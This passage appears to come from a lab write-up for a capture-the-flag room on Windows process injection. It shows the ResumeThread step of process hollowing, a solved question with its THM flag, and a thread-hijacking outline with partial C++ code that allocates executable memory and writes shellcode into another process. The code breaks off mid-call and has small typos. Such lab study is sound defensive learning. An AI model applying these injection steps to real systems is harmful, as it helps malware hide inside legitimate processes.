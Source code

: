 At step six, we need to take the process out of a suspended state using `ResumeThread`.

```cpp
ResumeThread(
	target_pi->hThread // Handle to the thread obtained from the PROCESS_INFORMATION structure
);
```

We can compile these steps together to create a process hollowing injector. Use the C++ injector provided and experiment with process hollowing.

## Questions
----

![[Pasted image 20250519120515.png]]

Let's use another process, for example PID `3384` regarding `ctfmon.exe`, now, let's use the tool:

![[Pasted image 20250519120615.png]]

We got our flag:

```
THM{7h3r35_n07h1n6_h3r3}
```


  
# Abusing Process Components
---

At a high-level thread (execution) hijacking can be broken up into eleven steps:

1. Locate and open a target process to control.
2. Allocate memory region for malicious code.
3. Write malicious code to allocated memory.
4. Identify the thread ID of the target thread to hijack.
5. Open the target thread.
6. Suspend the target thread.
7. Obtain the thread context.
8. Update the instruction pointer to the malicious code.
9. Rewrite the target thread context.
10. Resume the hijacked thread.

We will break down a basic thread hijacking script to identify each of the steps and explain in more depth below.

The first three steps outlined in this technique following the same common steps as normal process injection. These will not be explained, instead, you can find the documented source code below.

```cpp
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
```